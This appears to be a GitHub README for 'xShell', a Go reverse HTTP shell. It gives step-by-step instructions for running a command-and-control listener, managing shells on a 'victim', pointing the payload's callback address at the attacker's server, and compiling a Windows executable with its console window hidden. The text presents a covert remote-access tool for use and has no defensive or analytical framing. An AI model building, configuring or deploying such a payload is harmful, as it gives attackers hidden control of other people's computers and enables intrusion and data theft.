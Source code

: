 <div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple reverse http shell written in golang</i></p>
  <br/>
</div>

# Usage

### Change listener port
In c2/httpC2.go:
```go
const Port = "80" // change port here
```

### Start listener
```sh
go run c2/httpC2.go
```
If you want the listener on port 80 or 443 you must use sudo:
```sh
sudo go run c2/httpC2.go
```

### Listener commands
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
quit - quit shell (closes shell on victim)
exit - return to main menu (shell continues to run)
```

### Set call back host
In payload/xShell.go:
```go
const ServerAddr = "127.0.0.1:80" // change this to your servers IP/Host
```

### Build shell
```sh
GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui -o xShell.exe payload/xShell.go
```